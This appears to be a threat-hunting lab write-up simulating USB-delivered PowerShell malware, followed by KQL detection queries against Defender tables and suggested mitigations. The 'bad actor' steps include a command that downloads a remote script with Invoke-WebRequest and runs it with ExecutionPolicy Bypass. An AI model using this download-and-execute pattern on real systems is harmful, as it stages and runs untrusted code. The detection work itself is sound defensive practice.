 # Threat Event (USB Malware Execution via PowerShell)

**USB Device Triggers Malicious PowerShell Invoke-WebRequest Payload**

---

## Pre-steps:

1. **Created PowerShell simulation scripts to mimic malware behavior:**

   * `fake-malware.ps1`: [GitHub Link](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/fake-malware.ps1)
   * `malicious-usb-launcher.ps1`: [GitHub Link](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/malicious-usb-launcher.ps1)
   * `usb-mount.ps1`: [GitHub Link](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/usb-mount.ps1)
   * `usb-unmount.ps1`: [GitHub Link](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/usb-unmount.ps1)

2. **Used `usb-mount.ps1` to simulate USB insertion** by mounting a virtual payload directory `E:\Payload`.

3. **Copied `malicious-usb-launcher.ps1` to E:\Payload** to simulate a weaponized USB.

---

## Steps the "Bad Actor" Took to Create Logs and IoCs:

4. **Executed the USB payload (`malicious-usb-launcher.ps1`)**:

   * Script used `Invoke-WebRequest` to download `fake-malware.ps1` from GitHub:

     ```powershell
     Invoke-WebRequest -Uri "https://raw.githubusercontent.com/..." -OutFile "$env:TEMP\payload.ps1"
     powershell -ExecutionPolicy Bypass -File "$env:TEMP\payload.ps1"
     ```

5. **Script ran silently**, simulating second-stage execution.

6. **Cleanup actions performed**:

   * Temporary files auto-deleted
   * Simulated attacker unmounted USB with `usb-unmount.ps1`

---

## Tables Used to Detect IoCs:

| **Parameter** | **Description**                                                                                                  |
| ------------- | ---------------------------------------------------------------------------------------------------------------- |
| **Name**      | DeviceFileEvents                                                                                                 |
| **Info**      | [DeviceFileEvents Table](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table) |
| **Purpose**   | Detect file creation/deletion from USB, and downloaded `.ps1` files to temp folders.                             |

| **Parameter** | **Description**                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------- |
| **Name**      | DeviceProcessEvents                                                                                                    |
| **Info**      | [DeviceProcessEvents Table](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table) |
| **Purpose**   | Detect suspicious PowerShell activity, `-ExecutionPolicy Bypass`, `Invoke-WebRequest`, and script execution.           |

| **Parameter** | **Description**                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------- |
| **Name**      | DeviceNetworkEvents                                                                                                    |
| **Info**      | [DeviceNetworkEvents Table](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table) |
| **Purpose**   | Detect outbound HTTP calls to download remote scripts or payloads.                                                     |

---

## Related Queries:

```kql
// Detect PowerShell execution of scripts after USB insertion
DeviceProcessEvents
| where DeviceName == "fin-w10-wks-8"
| where AccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, Account = AccountName, FileName, FolderPath, ProcessCommandLine

// Detect file creation or deletion in TEMP or USB paths
DeviceFileEvents
| where DeviceName == "fin-w10-wks-8"
| where InitiatingProcessAccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, Account = InitiatingProcessAccountName, InitiatingProcessCommandLine

// Detect outbound connections to malicious or external sources via PowerShell
DeviceNetworkEvents
| where DeviceName == "fin-w10-wks-8"
| where InitiatingProcessAccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, Account = InitiatingProcessAccountName, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine
```

---

## Created By:

* **Author Name**: Jason Nguyen
* **Author Contact**: [https://github.com/jason-p-nguyen](https://github.com/jason-p-nguyen)
* **Date**: July 3, 2025

---

## Additional Notes:

* USB-based attacks remain a common method for **initial access** or **insider delivery**, especially in red team exercises and physical breach scenarios.
* PowerShell-based payloads are often used for **stealthy execution**, **fileless attacks**, or **remote payload staging**.
* Consider applying the following mitigations:

  * Disable `Invoke-WebRequest` and `IEX` in user PowerShell sessions
  * Enforce signed scripts only (`AllSigned` execution policy)
  * Monitor for USB mount events and autorun behavior
  * Use device control software to restrict USB access

---

## Revision History:

| **Version** | **Changes**   | **Date**     | **Modified By** |
| ----------- | ------------- | ------------ | --------------- |
| 1.0         | Initial draft | July 1, 2025 | Jason Nguyen    |
